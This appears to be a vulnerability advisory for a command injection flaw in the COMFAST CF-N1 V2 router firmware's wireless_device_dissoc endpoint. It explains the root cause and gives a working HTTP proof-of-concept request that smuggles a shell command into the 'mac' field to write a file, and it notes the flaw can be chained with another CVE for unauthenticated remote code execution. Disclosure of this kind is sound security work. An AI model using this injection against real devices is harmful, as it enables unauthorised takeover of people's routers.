



# COMFAST CF-N1 V2 V2.6.0 Command Injection in `wireless_device_dissoc`
PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wireless_device_dissoc` API (`/usr/bin/webmgnt`, function `sub_415F54`). Attackers can inject arbitrary commands via the `mac` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.


## Details


*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc`

*   **Vulnerability**: Command Injection

*   **CVE ID**: CVE-2025-9586

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_415F54` function handling the `wireless_device_dissoc` configuration. Disassembly analysis shows that the user-controlled `mac` parameter is unsanitized and directly incorporated into system commands via string formatting functions before execution by `system_0`.

Key code flow:


1.  User input (including `mac` and `ifname`) is parsed via `blobmsg_parse_0` and extracted as configuration parameters.

2.  The `mac` parameter is inserted into a command string (likely related to wireless device disassociation) using unvalidated string concatenation.

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct use of unfiltered input in command construction enables attackers to break out of the intended command context and execute malicious code.







## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File


```
POST /cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc  HTTP/1.1
Host: cflogin.cn
Content-Length: 89
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"ifname":"127.0.0.1",  "mac":"; echo wireless_device_dissoc  > /www-comfast/test.txt #"}
```


*   **Notes**: The vulnerable parameter is `mac`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "wireless\_device\_dissoc", confirming successful injection.



